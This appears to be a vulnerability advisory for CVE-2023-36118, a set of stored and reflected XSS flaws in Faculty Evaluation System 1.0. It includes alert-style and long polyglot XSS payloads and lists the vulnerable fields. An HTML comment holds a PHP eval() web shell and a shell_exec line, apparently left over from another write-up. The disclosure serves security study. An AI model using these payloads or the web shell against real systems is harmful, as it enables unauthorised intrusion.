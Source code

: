 # Faculty Evaluation System 1.0

+ Vendor Homepage: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html
+ EXPLOIT-AUTHOR : Noflag(CHT Security)
+ Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/eval_2.zip
+ Tested on: XAMPP + win10
+ XSS vuln
+ CVE ID: CVE-2023-36118
+ CVSS v3.1 `AV:L/AC:L/PR:H/UI:R/S:U/C:L/I:L/A:L/E:F/RL:W/RC:R/CR:L/IR:L/AR:L/MAV:L/MAC:L/MPR:H/MUI:R/MS:U/MC:L/MI:L/MA:L`

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/185ff8b6-5953-4219-9ef9-ab9f655ec5f3)

<!--
First, create a simple PHP script to trigger the vulnerability. The following PHP code will utilize the GET parameter and execute it through the eval() function:
 
**The $_GET[""] is passed to the eval() function, which means that the string will be interpreted as valid PHP code and executed. It allows the attacker to execute arbitrary PHP code.**

```php
<?php $code = $_GET['code'];
eval($code); ?>
```

When you see this page, you will know that the program has executed successfully. It seems that other tests can be performed.

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/7dbac24e-7e55-4050-8014-0b1ab115f15c)

+ echo shell_exec('whoami');  -->

![](https://hackmd.io/_uploads/B1KnDvgw2.png)

After pressing Set for each option
![](https://hackmd.io/_uploads/r1WcdDgw3.png)

stored xss
Entering the payload in the bottom box of most projects will trigger ->

I will write the details of the affected part at the end

[xss payload](https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt)
```
<script>alert(1)</script>
<img src=1 onerror=alert(1)>
<iframe src=javascript:alert(1)>
....

```

![](https://hackmd.io/_uploads/B1J2Dtlvn.png)
![](https://hackmd.io/_uploads/SyKpwFevh.png)

![](https://hackmd.io/_uploads/ByG2_Pevn.png)
![](https://hackmd.io/_uploads/Bys_b_lP2.png)
![](https://hackmd.io/_uploads/H1ysROxP3.png)


More interesting is this payload

```
xss%20%22%3E%3E%3Cmarquee%3E%3Cimg%20src=x%20onerror=confirm(/OPENBUGBOUNTY/)%3E%3C/marquee%3E%22%20%3E%3C/plaintext\%3E%3C/|\%3E%3Cplaintext/onmouseover=prompt(/OPENBUGBOUNTY/)%20%3E%3Cscript%3Eprompt(/OPENBUGBOUNTY/)%3C/script%3E@gmail.com%3Cisindex%20formaction=javascript:alert(1)%20type=submit%3E%27--%3E%22%20%3E%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E%22%3E%3Cimg/id=%22confirm&lpar;%20OPENBUGBOUNTY)%22/alt=%22/%22src=%22/%22onerror=eval(id&%23x29;%3E%27%22%3E%3Cimg%20src=%22http:%20www.openbugbounty.org/images/design/openbugbounty-logo.png%22%3E%20%EF%BF%BC&show;=xss%20%22%3E%3E%3Cmarquee%3E%3Cimg%20src=x%20onerror=confirm(/OPENBUGBOUNTY/)%3E%3C/marquee%3E%22%20%3E%3C/plaintext\%3E%3C/|\%3E%3Cplaintext/onmouseover=prompt(/OPENBUGBOUNTY/)%20%3E%3Cscript%3Eprompt(/OPENBUGBOUNTY/)%3C/script%3E@gmail.com%3Cisindex%20formaction=javascript:alert(1)%20type=submit%3E%27--%3E%22%20%3E%3C/script%3E%3Cscript%3Ealert(1)%3C/s
```
![](https://hackmd.io/_uploads/HyAyXOeP2.png)

Stored xss will cause
xss is triggered every time the page is visited

Affected vulnerable blocks:
```
On the page http://localhost/eval/, under "Manage Account," if an XSS payload is entered in the "First Name" and "Last Name" fields, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=, after entering a reflected XSS payload in the "page=" parameter, it can trigger an attack.

On the page http://localhost/eval/index.php?page=subject_list, under the "Manage subject" setting in the "Action" section, if an XSS payload is entered in the "Description" and "Subject" fields, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=class_list, under the "Manage class" setting in the "Action" section, if an XSS payload is entered in any of the fields, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=academic_list, under the "Manage" setting in the "Action" section, if an XSS payload is entered in the "Year" field, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=questionnaire, under the "Manage" setting in the "Action" section, in the "Question" field at the bottom of the page, if an XSS payload is entered, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=criteria_list, in the "Criteria" field, if an XSS payload is entered, it can trigger stored XSS.

On any page under http://localhost/eval/index.php?page=faculty_list, after clicking "Edit" in the "Action" column, on the page http://localhost/eval/index.php?page=edit_faculty&id=, under the "Edit Faculty" section, if an XSS payload is entered in the "School ID," "First Name," and "Last Name" fields, it can trigger stored XSS.

On any page under http://localhost/eval/index.php?page=student_list, after clicking "Edit" in the "Action" column, on the respective page, in the "School ID," "First Name," and "Last Name" fields, if an XSS payload is entered, it can trigger stored XSS.

On any page under http://localhost/eval/index.php?page=user_list, after clicking "Edit" in the "Action" column, on the respective page, in the "First Name" and "Last Name" fields, if an XSS payload is entered, it can trigger stored XSS.
```
